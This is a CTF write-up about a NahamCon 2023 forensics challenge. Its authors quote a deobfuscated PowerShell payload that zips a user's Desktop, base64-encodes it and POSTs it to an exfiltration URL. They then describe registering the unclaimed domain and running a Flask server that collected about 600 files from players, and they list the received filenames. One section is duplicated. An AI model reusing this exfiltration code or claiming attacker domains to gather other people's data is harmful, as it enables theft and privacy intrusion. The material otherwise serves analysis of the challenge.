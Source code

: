 # How we turned a challenge against the players and creators

## About the Challenge

During the process of deobfuscating the powershell payload from [the IR challenge](2023/nahamcon/Forensics/IR/IR.md), we noticed that the domain where all the encrypted files were being sent to was not yet claimed. Here's an explanation of how we received hundreds of decryptable files the CTF players sent us by running the encrypter.

## How we did it

---

After we deobfuscated the first stage of the payload, we stumbled across this powershell code:
![](PowershellCode.png)

At the second-last line, you can see the following piece of powershell code:

````ps
Invoke-Webrequest -Method Post -Uri "https://www.thepowershellhacker.com/exfiltration" -Body $body
```

---

After we deobfuscated the first stage of the payload, we stumbled across this powershell code:
![](PowershellCode.png)

At the second-last line, you can see the following piece of powershell code:

```ps
Invoke-Webrequest -Method Post -Uri "https://www.thepowershellhacker.com/exfiltration" -Body $body
````

This line sends a variable called `body` to `www.thepowershellhacker.com/exfiltration` in a post request.

The variable `body` is specified a bit earlier in the code:

```ps
$zipFileBytes = Get-Content -Path ("C:\Users\"+$user+"\Downloads\Desktop.zip") -Raw -Encoding Byte
$zipFileData = [Convert]::ToBase64String($zipFileBytes)
$body = ConvertTo-Json -InputObject @{file=$zipFileData}
```

Here we can clearly see that a zip file from the desktop (containg every file from the desktop) gets encoded in Base64, and then transferred into a Json object.

---

Out of curiosity, we quickly checked if the domain `thepowershellhacker.com` was claimed, expecting it to be.

However, to our surprise, it wasn't!
![A dutch website checking to check if the domain is available for sale.](claimed.png) _A dutch website checking to check if the domain is available for sale._

## What now?

---

After we claiming the domain, we went ahead and setted up a python web server, which would listen for incoming requests:

```python
from flask import Flask, request, jsonify
import time

app = Flask(__name__)

@app.route('/exfiltration', methods=['POST'])
def result():

    fileName = str(time.time()) + '.base64.zip'
    f = open(fileName, 'w+')

    receivedFile = request.get_json(force=True)['file']
    f.write(receivedFile)

    f.close()
    return "", 200

if __name__ == '__main__':
    app.run(host="127.0.0.1", port=2001)
```

This python webserver would receive the base64 encoded payload from the body, pull it out of the json object, and put it in a file.

## What did we receive?

---

After the Nahamcon CTF ended, we went ahead and checked how many files we received:
![](results.png)

We reived a total of 600 files, that's insane!
Sadly, after mass decrypting all the files we received, we came to the conclusion that there are _only_ 33 files that are not from this ctf.
Here's a list of all the files that were not part of the CTF challenge:

```
Ableton Live 11 Suite.lnk
asdf
ASDF
asdf.ps1
Autoruns.lnk
available_packages.txt
Bitdefender.lnk
config.xml
desktop.ini
failed_packages.txt
fakenet_logs.lnk
file.txt
flare-vm-4
Ghost Toolbox.lnk
HitmanPro.Alert.lnk
imac.py
kanker.txt
New Text Document.txt
nice.ps1
NPE.lnk
ProcessExplorer.lnk
PSDecode.ps1
QQ.lnk
readme.txt
TCPView.lnk
Telegram.lnk
test.txt
tes.txt
Tools.lnk
UpdateHealthTools.001.etl
UpdateHealthTools.001.evtx
x32dbg.lnk
x64dbg.lnk
```

A lot of these files are ending in `.lnk`, which means they are windows file shortcuts. They're not interesting.

After manually going through all the files, we concluded that nothing really of interest was captured. This means that almost everyone was smart enough to not run this on their own desktop environment, but in the VM supplied by the Nahamcon CTF.

We'd also like to note that we didn't receive anything that could be identified back to a specific users, nor did we receive any sensitive files. Next to that, we'll destroy all the files and logs we've received.

## Was this a waste of time?

No, this absolutely wasn't a waste of our time and resources. First of all, the CTF challenge in itself was already pretty fun to solve. Next to that, we quite enjoyed the process of making all of our quick and dirty tools. From the python web server, to the mass decoders. We're also delighted to see that almost everyone ran the "ransomware" in the Virtual Machine supplied by the CTF organisers, on not on their own machine.

We absolutely loved the process we went through by making this.

---

> _We want to thank Nahamsec and John Hammond for making and hosting this Capture the Flag tournament. And we'd also like to thank `@awesome10billion#1164` for making the forensics challenge. We quite enjoyed it._

###### Written by Crunch
